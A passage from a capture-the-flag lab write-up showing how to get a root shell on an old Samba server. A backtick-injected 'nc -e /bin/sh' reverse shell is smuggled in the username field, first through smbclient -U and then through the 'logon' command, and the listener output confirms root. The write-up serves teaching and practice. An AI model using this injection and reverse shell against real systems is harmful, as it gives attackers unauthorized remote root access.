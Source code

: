 ```

root@kali# smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
nohup: ignoring input and redirecting stderr to stdout

```

At my listener, I get a connection:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.14.24.
Ncat: Connection from 10.10.14.24:48532.

```

Unfortunately, it’s from my local box. My `bash` is executing the `` `` before sending the connection. I’ll swap the `"` for `'`:

```

root@kali# smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.24 443`'
Enter =`NOHUP NC -E \bin/sh 10.10.14.24 443`'s password:

```

For some reason, the start of the command is getting capitalized, which is going to break execution.

#### smbclient success

It turns out there’s another way to login over `smbclient`, and that’s used for changing users once connected with the `logon` command (I just hit enter when prompted for a password):

```

smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT

```

I get a connection from Lame with a root shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:55410.
‍id
uid=0(root) gid=0(root)

```
